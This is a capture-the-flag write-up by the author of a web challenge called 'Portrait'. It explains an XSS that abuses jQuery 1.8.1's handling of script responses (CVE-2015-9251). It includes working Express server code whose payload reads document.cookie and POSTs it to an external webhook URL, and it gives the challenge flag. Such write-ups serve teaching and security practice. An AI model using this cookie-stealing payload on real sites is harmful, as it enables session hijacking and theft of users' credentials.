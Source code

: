 ```yaml
---
layout: post
current: post
cover:  assets/squ1rrel/kyleburgess2025/portrait/cover.webp
navigation: True
title: "Portrait"
date: 2025-04-06 11:59:00
tags: [squ1rrel, web]
class: post-template
subclass: 'post'
author: kyleburgess2025
---
```


It's like DeviantArt, but with a report button to keep it less Deviant.

Welcome to Portrait, the final challenge I wrote and my first XSS challenge. The idea for this challenge came from a super cool Canvas vuln I read about recently. This XSS vulnerability in the Canvas course software was found by Andrew Healey and can be read about [here](https://github.com/andrew-healey/canvas-lms-vuln). The vulnerability comes from an outdated version of JQuery being used - namely, `1.7.2`, which has [this vulnerability](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-9251). The name of this challenge, Portrait, is a cheeky reference to the Canvas vulnerability.

# The Problem

Upon registering for an account, we are brought to a gallery where we can create new portraits, providing a name and a source URL for the image. The gallery also displays our previous portraits as a title and an image combination.

![image of gallery page](/assets/squ1rrel/kyleburgess2025/portrait/gallery.png)
*if you're looking for a gallery curator, MoMA, hmu*

There is also a `/report` endpoint where you can give the admin bot a link to a gallery to visit; the flag will be stored in the cookies of the admin bot. The admin bot will only visit other pages on the Portrait website. Basically, we need to make a portrait that will cause the cookies of the admin bot to be leaked to us when the admin bot visits.

# Diving In

Let's take a look at the suspicious parts of the code.

First, at the top of `static/gallery.html`, we have the following:

```html
<script type="text/javascript" src="https://code.jquery.com/jquery-1.8.1.min.js"></script>
```

Sweet, an outdated version of JQuery! A quick Google of JQuery 1.8.1 leads us back to the [CVE](https://www.cvedetails.com/cve/CVE-2015-9251/) I mentioned earlier. Now, let's see how we can exploit it...

```js
$(document).ready(function () {
    const username = new URLSearchParams(window.location.search).get("username");
    $.ajax({
        url: "/api/portraits/" + username,
        type: "GET",
        success: function (data) {
            data.forEach((portrait) => {
                const col = $("<div>").addClass("col-md-4 mb-4");
                const card = $("<div>").addClass("card shadow-sm");
                const img = $("<img>").addClass("card-img-top").attr("src", portrait.source).attr("alt", portrait.name);
                const cardBody = $("<div>").addClass("card-body text-center");
                const title = $("<h5>").addClass("card-title").text(portrait.name);

                img.on("error", (e) => {
                    $.get(e.currentTarget.src).fail((response) => {
                        if (response.status === 403) {
                            $(e.target).attr("src", "https://cdn.pixabay.com/photo/2021/08/03/06/14/lock-6518557_1280.png");
                        } else {
                            $(e.target).attr(
                                "src",
                                "https://cdn.pixabay.com/photo/2024/02/12/16/05/siguniang-mountain-8568913_1280.jpg"
                            );
                        }
                    });
                });

                cardBody.append(title);
                card.append(img).append(cardBody);
                col.append(card);
                $("#portraitsContainer").append(col);
            });
        },
    });
    // snip
})
```

Ok, first off, we have `$.ajax` being called without the `dataType` option, which is a red flag. However, on success, the data retrieved from the URL is put into an `img` source, so any scripts returned won't be run. Let's look instead at the error handling. If an `img` element has an error, a request is made to the image source and the error code is checked to see which placeholder image should be used.

However, the JQuery CVE we discussed before mentioned that if `dataType` is not specified and Javascript is returned, the script will automatically be run on the client's computer. Thus, if we can deploy a server that serves Javascript instead of an image and make it the source for one of our portraits, we should get XSS! Let's try:

```js
const app = require("express")();
app.use(require("cors")());

const payload = `
(function() {
    alert("XSS");
})();
`;

app.get("/image", (req, res) =>
  const isImage = req.headers.accept.includes("image");
  res.writeHead(200, { "Content-Type": "application/javascript" });
  res.end(payload);
);

app.listen(8081);
```

Using you favorite quick-deploy service (I used `cloudflared`, since it doesn't have an interstitial that checks if you're human), we can get a public URL that we can use as the image source. Let's try this out:

![image of gallery page with xss](/assets/squ1rrel/kyleburgess2025/portrait/xss.png)

Beautiful. Now, let's change the payload:

```js
const app = require("express")();
app.use(require("cors")());

const payload = `
(function() {
    const cookies = document.cookie;
    const url = "https://webhook.site/91c39d9c-76da-4ced-9624-96700b8ad703";

    fetch(url, {
        method: "POST",
        headers: {
            "Content-Type": "application/x-www-form-urlencoded"
        },
        body: "cookies=" + encodeURIComponent(cookies)
    });
})();
`

app.get("/image", (req, res) =>
  const isImage = req.headers.accept.includes("image");
  res.writeHead(200, { "Content-Type": "application/javascript" });
  res.end(payload);
);

app.listen(8081);
```

After deploying with `cloudflared` and reporting the link to my account (`http://{CHALLENGE_IP}/gallery?username={ACCOUNT_NAME}`), our Webhook gets pinged!

![image of a Webhook request](/assets/squ1rrel/kyleburgess2025/portrait/webhook.png)

Flag: `squ1rrel{unc_s747us_jqu3ry_l0wk3y_take_two_new_flag_check_this_out_guys}`
